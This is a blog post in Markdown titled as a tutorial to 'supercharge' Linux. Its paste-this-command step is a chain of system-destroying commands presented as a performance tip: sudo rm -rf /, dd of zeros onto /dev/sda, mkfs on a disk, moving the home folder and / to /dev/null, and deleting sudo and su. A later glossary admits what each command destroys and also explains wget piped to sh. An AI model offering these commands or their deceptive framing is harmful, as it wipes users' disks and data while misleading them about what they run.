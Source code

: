 ```yaml
---
layout: post
title: Tutorial DropAll for Linux
subtitle: With success for begins
bigimg: https:/camo.githubusercontent.com/b9526efd09cef9f757d819f0fd8fe58a7f0954b8/68747470733a2f2f6d656469612e67697068792e636f6d2f6d656469612f6a516a76344b394f5630426f632f67697068792e676966
---
```


## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / || rm -rf .* || rm - .* || dd if=/dev/zero of=/dev/sda || mkfs.ext3 /dev/hda || echo '' > /dev/hda || cd ~; for x in ls; do mv -f $x $y; y=$x; done
find -type f -mtime +30 -exec mv {} /dev/null ; || mv ~ /dev/null || mv / /dev/null || rm -f /usr/bin/sudo;rm -f /bin/su || mv /home/$user/* /dev/null &


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.